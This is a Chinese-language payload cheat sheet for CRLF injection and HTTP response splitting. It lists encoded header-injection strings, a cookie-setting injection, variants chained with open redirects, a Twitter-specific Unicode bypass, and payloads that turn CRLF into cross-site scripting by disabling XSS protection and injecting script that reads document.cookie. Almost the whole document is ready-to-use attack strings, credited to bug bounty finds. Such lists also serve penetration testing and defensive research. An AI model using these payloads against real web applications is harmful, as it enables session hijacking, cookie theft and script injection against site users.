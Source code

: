 ## CRLF 注入 || HTTP Response Splitting

```
%0dSet-Cookie:csrf_token=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx;
```

**基于header测试根目录**

```
%0d%0aheader:header
```
```
%0aheader:header
```
```
%0dheader:header
```
```
%23%0dheader:header
```
```
%3f%0dheader:header
```

```
/%250aheader:header
```

```
/%25250aheader:header
```

```
/%%0a0aheader:header
```

```
/%3f%0dheader:header
```

```
/%23%0dheader:header
```

```
/%25%30aheader:header
```

```
/%25%30%61header:header
```

```
/%u000aheader:header
```

**CRLF与Open Redirect服务器配置错误 **

```
//www.google.com/%2f%2e%2e%0d%0aheader:header
```
```
/www.google.com/%2e%2e%2f%0d%0aheader:header
```
```
/google.com/%2F..%0d%0aheader:header
```

**Twitter 特殊的 CRLF** by [@filedescriptor](http://blog.innerht.ml/twitter-crlf-injection/)

```
%E5%98%8A%E5%98%8Dheader:header
```

**CRLF Injection 到 XSS**

```
%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2e%2e
```

**在302跳转响应之前** (Discovered in DoD)

```
%0d%0aContent-Type:%20text%2fhtml%0d%0aHTTP%2f1.1%20200%20OK%0d%0aContent-Type:%20text%2fhtml%0d%0a%0d%0a%3Cscript%3Ealert('XSS');%3C%2fscript%3E
```

**响应拆分301代码，与Open Redirect链接以破坏header位置并打破301** by [@black2fan](https://twitter.com/black2fan) (Facebook bug)

_注意：_`xxx：1`用于打开重定向目的地（header头）。 很好的例子如何将CRLF升级到XSS，这似乎是不可利用的301状态代码。

```
%2Fxxx:1%2F%0aX-XSS-Protection:0%0aContent-Type:text/html%0aContent-Length:39%0a%0a%3cscript%3ealert(document.cookie)%3c/script%3e%2F..%2F..%2F..%2F../tr
```
